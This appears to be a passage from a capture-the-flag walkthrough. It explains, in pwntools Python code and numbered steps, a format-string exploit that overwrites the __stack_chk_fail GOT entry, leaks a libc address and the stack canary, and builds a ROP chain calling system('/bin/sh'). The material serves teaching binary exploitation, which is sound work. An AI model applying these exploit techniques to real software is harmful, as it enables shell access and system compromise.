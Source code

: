 ```python
# first pass, inf. retries if we blow out canary, leak libc
p.recvuntil('name: ')
payload  = b'%' + str(libcoffset).encode().rjust(2,b'0') + b'$018p'
payload += fmtstr_payload(offset+1,{binary.got['__stack_chk_fail']:binary.symbols['main']},numbwritten=18)
payload += ((0x118 - 0x10 + 1) - len(payload)) * b'A'
p.send(payload)
p.recvuntil('Hello ')
_ = p.recv(18)
__libc_start_main = int(_,16) - 231
log.info('__libc_start_main: ' + hex(__libc_start_main))
baselibc = __libc_start_main - libc.symbols['__libc_start_main']
log.info('baselibc: ' + hex(baselibc))
libc.address = baselibc
```

The first pass is the most important and sets the stage for multiple passes.  From the top down:

1. The payload starts with exactly 8 bytes that will read the libc leak from offset `41`.  We must keep the stack aligned and also keep track of format string offset _offsets_, as well as how many bytes will be emitted.  The `$018p` ensures that exactly 18 bytes are emitted.  This needs to be passed to the `fmtstr_payload` function so that it can properly compute format string exploit.
2. pwntools out-of-the-box includes fantastic format string exploit support.  All of the exploits in this walkthrough leverage this, but in slightly different ways.  The first parameter is the `offset`, this is off by one since we already used 8 bytes; we have to inform `fmtstr_payload` of that fact or its math will be off (`len(payload) // 8` would have been more portable).  The next parameter is a dictionary of _where_:_what_.  In this example, we're replacing the `__stack_chk_fail` GOT entry with the address of `main`.  This will cause any call to `__stack_chk_fail` to jump to `main`.  The last parameter is the number of bytes emitted by `printf`.  This is very important, for format string exploits to work the exact number of previous emitted bytes needs to be accounted for, or the math will fail.  The `printf` format string to leak a libc address emits exactly 18 bytes.
3. The rest of the payload just fills up the stack up to and including the first canary byte.  `0x118 - 0x10` (see Ghidra stack diagram, char array is at `0x118` and canary is at `0x10`).  The extra `A` (`+ 1`) corrupts the least significant byte of the canary.  This will cause `__stack_chk_fail` to jump to `main` for our next pass at the end of `main`.
4. The final `printf` called in `main` will emit `18` bytes--the leaked libc address.  And since the version of libc was provided (inferred from the use of Ubuntu 18.04 in the Dockerfile), we can simply compute the base of libc.

```python
# 2nd pass, leak canary, setup payload
p.recvuntil('name: ')
payload  = b'%' + str(canaryoffset).encode().rjust(2,b'0') + b'$018p'
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.symbols['system'])
payload += ((0x118 - 0x10 + 1) - len(payload)) * b'A'
p.send(payload)
p.recvuntil('Hello ')
_ = p.recv(16)
canary = int(_,16) << 8
log.info('canary: ' + hex(canary))
```
